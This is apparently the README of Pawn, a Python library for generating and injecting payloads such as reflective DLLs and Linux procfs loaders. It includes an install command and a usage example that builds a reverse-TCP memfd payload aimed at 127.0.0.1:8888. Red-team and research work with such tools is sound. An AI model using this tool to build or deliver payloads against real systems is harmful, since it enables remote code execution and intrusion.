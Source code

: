 # Pawn

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS` payloads.
* Support for such techniques like `Reflective DLL Injection` and `procfs loader`.
* Has modular system which allows you to write your own custom payloads.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of obtaining [ELF procfs loader](https://blog.entysec.com/2023-04-02-remote-elf-loading/) with custom host and port.

```python
from pawn import Pawn

pawn = Pawn()

payload, send_size = pawn.get_pawn(
    module='linux/x64/reverse_tcp_memfd',
    platfrom='linux',
    arch='x64',
    host='127.0.0.1',
    port=8888
)

print(len(payload))
print(payload)
```

## Special Thanks

* Some parts of **assembly code for Windows** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).
